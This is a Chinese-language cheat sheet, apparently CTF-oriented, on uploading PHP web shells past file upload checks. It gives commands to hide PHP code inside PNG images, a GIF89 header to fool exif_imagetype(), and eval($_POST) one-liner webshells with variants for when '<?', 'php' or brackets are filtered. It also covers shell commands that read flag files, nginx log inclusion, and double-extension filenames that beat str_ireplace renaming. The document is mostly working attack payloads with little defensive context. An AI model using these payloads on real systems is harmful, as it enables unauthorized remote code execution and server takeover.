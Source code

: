 
合成一张小图片png和php文件：
```
windows下命令：
copy pic.png/b + info.php/a  shell.png
图片以二进制的格式和php以acaii格式融合，生成shell.png文件
用16进制工具打开查看生成效果。

linux下命令:
cat追加
cat info.php >> pic.png
cat合成
cat pic.png info.php >> shell.png
echo直接追加代码
echo '<?php phpinfo(); ?>'   >>  pic.png
```
或直接抓包在POST包中，内容前加ascii值为：GIF89。
绕过exif_imagetype()函数
如
```
GIF89
<script language="php">@eval($_POST['cmd'])</script>
```

**文件内容检测禁用：**
可以先yakit跑字符看哪些字符被禁。
禁用了<?，用
```
<script language="php">@eval($_POST['cmd'])</script>
```
禁用php字符，用
```
<?= @eval($_POST['hack']); ?>
<?Php  @eval($_POST['hack']); ?>

<? echo'123';?>/ /short_open_tags=on
<?=（表达式)?> //等价于<?phpecho（表达式)？>//无限制
```
禁用[]字符，用$_POST{'1'};
```
<? @eval($_POST{'x'}); ?>
或直接执行
<? system("nl ../fla*") ?>
<?=`nl ../fl*`?>
<?=`tac ../fl*`;
```
配合日志包含
```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```


^
^
## **后端文件上传二次处理绕过**
### **1. 上传文件重命名**
上传文件重命名导致不能解析成php。
1. 把上传的文件名在黑名单的替换为空：
```
$name = str_ireplace("php","",$name);
str_ireplace大小写一起替换
让$name=shell.pphphp
```
2. 把上传的文件名在黑名单的替换为空字符串：
```
$name = str_replace("php"," ",$name);
让$name=shell.PHP
```